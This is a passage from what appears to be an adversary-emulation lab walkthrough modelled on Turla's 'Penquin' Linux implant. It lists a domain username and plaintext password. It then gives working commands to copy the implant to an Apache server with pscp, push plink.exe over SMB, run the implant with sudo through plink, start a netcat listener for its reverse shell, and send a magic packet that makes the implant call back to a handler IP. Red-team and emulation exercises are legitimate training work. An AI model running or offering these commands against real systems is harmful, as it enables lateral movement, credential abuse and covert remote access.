 | Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

* Open File Explorer and browse to `C:\Windows\System32`

* Open an elevated Windows Command Prompt (if no existing admin prompt from a
previous step)

* Use the elevated Windows Command Prompt to copy Penquin to the Apache web
server using Adalwolfa's credentials.

```bash
echo y | C:\Windows\System32\pscp.exe -pw Password2! C:\Windows\Temp\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f
```

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
plink.exe to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put plink.exe Windows\System32\plink.exe'
```

:arrow_right: Return to your RDP session to `khabibulin (10.20.20.104)` as
`adalwolfa`.

* Return to the File Explorer window in System32.

* Return to the elevated Windows Command Prompt to execute Penquin (Penquin
takes ~8 seconds to execute).

```bash
(echo unzip /tmp/tmp514f524f -d /tmp & echo sudo mv /tmp/hsperfdata /root/hsperfdata & echo sudo /root/hsperfdata & echo exit) | C:\Windows\System32\plink.exe -ssh -l adalwolfa -pw Password2! 10.20.10.23
```

* Wait for the command to return.

* :arrow_right: From your Kali Linux machine, open a new terminal tab using Ctrl+Shift+T. Rename the new tab to `Penquin NC`

* In the new tab, set up a Netcat listener for Penquin's reverse shell to connect to:

```bash
nc -lvvp 8081
```

* Open up another terminal tab and name this one to `Packet Sender`. Run the following commands to send the magic packet to the Apache server using
the `sendPacket.py` utility.

```bash
cd /opt/day1/turla
sudo -E python3 Resources/Penquin/sendPacket.py --handler_ip 176.59.15.33 --handler_port 8081 --target_ip 10.20.10.23 --target_port 8080 --payload_type base64
```
